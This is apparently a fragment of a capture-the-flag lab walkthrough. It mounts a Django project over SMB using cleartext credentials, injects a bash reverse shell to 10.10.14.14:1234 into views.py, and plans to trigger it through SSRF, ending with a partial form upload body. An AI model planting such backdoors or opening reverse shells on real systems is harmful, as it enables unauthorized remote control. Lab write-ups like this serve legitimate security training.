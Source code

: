 1. change django service to inject system commands
2. use SSRF to visit local django service to trigger system command

```console
└─╼$ mkdir -p mnt/writer2_project
└─╼$ sudo mount -t cifs //10.10.11.101/writer2_project ./mnt/writer2_project -o username=kyle,password=ToughPasswordToCrack,vers=3.0
└─╼$ ls -al mnt/writer2_project
total 9
drwxr-xr-x 2 root root      0 Feb  6 05:15 .
drwxr-xr-x 1  501 dialout  96 Feb  6 05:21 ..
-rwxr-xr-x 1 root root    806 Feb  6 05:20 manage.py
-rwxr-xr-x 1 root root     15 Feb  6 05:20 requirements.txt
drwxr-xr-x 2 root root      0 May 16  2021 static
drwxr-xr-x 2 root root      0 Jul  9  2021 staticfiles
drwxr-xr-x 2 root root      0 May 19  2021 writer_web
drwxr-xr-x 2 root root      0 May 19  2021 writerv2
```

```console
└─╼$ cat models.py
from __future__ import unicode_literals

from django.db import models

# Create your models here.
└─╼$ cat urls.py
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
└─╼$ cat views.py
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)

---------------- after inject sys cmd ----------------------
└─╼$ cat views.py
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    import os;os.system("bash -c 'bash -i >&/dev/tcp/10.10.14.14/1234 0>&1'")
    template_name = "index.html"
    return render(request,template_name)
```

```console
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="author"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="title"

im qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="tagline"

qwe
-----------------------------118533453010020168263738670579
```